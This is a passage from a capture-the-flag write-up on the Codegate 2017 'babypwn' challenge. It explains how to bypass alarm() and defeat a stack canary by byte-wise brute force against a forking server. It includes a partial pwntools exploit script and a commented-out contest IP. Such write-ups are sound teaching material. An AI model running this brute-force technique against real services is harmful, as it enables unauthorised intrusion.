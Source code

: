 ![](/images/2017/codegate/babypwn/05.png)

Ok, so we have the vulnerability, we can overwrite the saved return pointer, now we just need to bypass the exploit mitigations. 

### Bypassing alarm()

This was more of an annoyance than anything else. I ended up just patching my local binary to NOP out the call to `alarm()` at 0x8048c14. Binary Ninja made patching easy. 

### Bypassing the stack canary

The binary forks, so the child process inherits the parent's memory addresses; including the stack canary's. As long as I didn't restart the parent process, the stack canary would continue to be the same for each child spawned. This made it possible to brute force the stack canary byte-by-byte. I knew it 40 bytes into my user provided buffer, so I just had to figure out what the binary would do if I guessed the wrong byte. Using Python, it turned out that I would get a `EOFError` exception. Otherwise it meant that I guessed correctly. Here's the script to brute force the canary:

```
#!/usr/bin/env python

from pwn import *

canary = ""
canary_offset = 40
guess = 0x0

buf = ""
buf += "A" * canary_offset
buf += canary

while len(canary) < 4:
    while guess != 0xff:
        try:
            r = remote("localhost", 8181)
            #r = remote("110.10.212.130", 8888)

            r.recvuntil("Select menu > ")
            r.sendline("2")

            r.recvuntil("Input Your Message : ")
            r.send(buf + chr(guess))

            r.recvuntil("Select menu > ")
            r.sendline("3")
            d = r.recv(1024)

            # if we don't get an exception, we guessed the correct byte
            print "Guessed correct byte:", format(guess, '02x')
            canary += chr(guess)
            buf += chr(guess)
```